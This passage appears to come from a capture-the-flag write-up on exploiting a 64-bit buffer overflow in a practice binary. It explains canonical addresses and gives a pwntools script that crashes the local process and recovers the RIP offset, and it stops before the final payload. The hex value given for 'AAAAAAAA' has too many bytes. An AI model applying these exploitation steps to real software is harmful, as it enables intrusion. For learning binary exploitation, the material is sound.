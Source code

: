 ![Output of pwndbg and the RIP being overwritten](baby-bof-64-rip-overwritten.png)

According to *Red Team Notes*, the reason for the **RIP** register not overflowing is because in a 64-bit architecture, current CPUs prevent the operating system from using all 64 bits. This means `AAAAAAAA` (0x41414141414141414141) is considered as a non-[canonical memory](https://stackoverflow.com/questions/25852367/x86-64-canonical-address) address. So, we need to send a canonical address to the **RIP** (basically finding the right offset).

#### Reaching the `win()` function
By utilizing `pwntools` again, we can automatically find our offset as well as retrieve the address of the `win()` function.

```py
from pwn import *

### Finding our offset ###
io = process('./baby_bof_x64') # You must use the local process

# Sending a arbitrary cyclic pattern
io.sendline(cyclic(128))

# Waiting our program to crash
io.wait()

# Retrieving our core dump (https://docs.pwntools.com/en/stable/elf/corefile.html)
core = io.corefile

# Observing the stack
stack = core.rsp # rsp: stack pointer

# Finding where our cyclic pattern leaked onto the stack
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)

### Now that we have our offset, let's exploit the binary ###
```